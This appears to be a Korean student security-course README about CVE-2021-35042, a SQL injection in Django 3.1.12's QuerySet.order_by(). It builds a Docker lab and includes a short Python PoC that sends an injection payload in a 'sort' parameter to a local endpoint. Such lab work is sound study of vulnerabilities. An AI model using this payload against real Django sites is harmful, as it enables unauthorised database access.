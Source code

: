 # CVE-2021-35042 - Django QuerySet.order_by() SQL Injection 환경 구축 및 PoC

> 화이트햇스쿨 3기 33반 - 이희민


## 요약
Django 3.1.12 버전에서 발생하는 CVE-2021-35042 (QuerySet.order_by() SQL Injection) 취약점에 대한 환경을 Docker 기반으로 구축하고, 이를 검증(PoC)했다.

## 환경 구성
- 사용 기술: Docker, Docker Compose, Django 3.1.12
- 취약 환경 구축 파일:
  - `Dockerfile`
  - `docker-compose.yaml`
- 환경 실행 방법:
  1. `docker-compose up` 명령어로 컨테이너 실행
  2. 브라우저에서 `http://localhost:8000/vuln` 접속하여 서버 상태 확인

## 구축 과정

### 1. Dockerfile 작성
- python:3.8-slim 이미지를 기반으로 Django 3.1.12를 설치
![image](https://github.com/user-attachments/assets/3944eb99-ae91-428d-a5e5-8733535517d7)



### 2. docker-compose.yaml 작성
- Django 앱을 컨테이너로 띄우기 위해 기본 포트 8000을 매핑
![image](https://github.com/user-attachments/assets/29df95ba-d180-4a1b-bfe2-ca3aa6534a86)



### 3. Django 프로젝트 생성 및 vulnapp 앱 생성
- `django-admin startproject config .` 명령어로 프로젝트 생성
- `vulnapp` 앱을 생성하고, `views.py`에 취약한 `vuln_view`를 작성
![image](https://github.com/user-attachments/assets/2cd99ec4-651d-45de-acec-141e49906612)

- `models.py`에 단순한 `TestModel`을 추가하여 정렬 대상 테이블 구성
![image](https://github.com/user-attachments/assets/6ef4e90e-5373-4ea6-bc5d-26e032ce722e)



### 4. URL 연결
- `/vuln` 경로로 vuln_view를 연결

### 5. 서버 실행 확인
- `docker-compose up` 명령어로 서버를 띄운 후, `http://localhost:8000/vuln`에 정상 접속되는 것을 확인
![image](https://github.com/user-attachments/assets/cbf0c93d-6b04-492a-a51d-b1f59457da7c)


## PoC 수행

### 1. 공격 스크립트 작성 (poc.py)
```python
import requests

target = "http://127.0.0.1:8000/vuln"
payload = "extractvalue(1,concat(0x7e,(SELECT sqlite_version())))"

params = {
    "sort": payload
}

res = requests.get(target, params=params)

print("[+] Status Code:", res.status_code)
print("[+] Response Text:", res.text)
```

![image](https://github.com/user-attachments/assets/cd2c2266-3118-43aa-bbd4-2b9b0bf3b5cc)

### 2. 공격 수행 결과
![image](https://github.com/user-attachments/assets/d2cbf111-7d68-4671-af5f-efbb661028e7)
poc.py를 실행한 결과, 서버에서 500 에러와 함께 SQL 오류 메시지가 반환됨.
=> 사용자 입력이 검증되지 않고 직접 쿼리에 삽입되었음을 의미

## 정리
CVE-2021-35042는 Django의 order_by() 함수에서 사용자 입력을 필터링하지 않아 발생하는 SQL Injection 취약점이다.
공격자가 특수 crafted된 sort 파라미터를 삽입할 경우, 데이터베이스로 직접적인 쿼리 조작이 가능하다.
최신 Django 버전에서는 이 문제를 해결하였다.
